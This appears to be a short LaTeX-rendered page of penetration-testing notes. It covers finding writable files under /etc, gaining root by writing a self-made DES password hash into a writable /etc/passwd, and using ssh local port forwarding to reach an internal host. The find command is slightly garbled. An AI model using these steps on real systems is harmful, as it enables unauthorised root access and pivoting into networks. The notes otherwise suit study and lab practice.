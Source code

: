 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-writable -4000 }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"etc"}
\end{Highlighting}
\end{Shaded}

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first \textbf{x} is.

Create a DES(Unix) password

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ passwd}
\CommentTok{#Output}
\ExtensionTok{Password}\NormalTok{:}
\ExtensionTok{Verifying}\NormalTok{ - Password:}

\ExtensionTok{JIJQueSBU9kBY}
\end{Highlighting}
\end{Shaded}

You can then copy the hash in passwd for the root user

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{root}\NormalTok{:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh}
\end{Highlighting}
\end{Shaded}

\hypertarget{local-port-forwarding}{%
\section*{Local Port forwarding}\label{local-port-forwarding}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa user@}\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -L 9000:172.17.0.2:9000}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  -i for adding ssh id\_rsa key
\item
  -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh
\end{itemize}
\end{document}

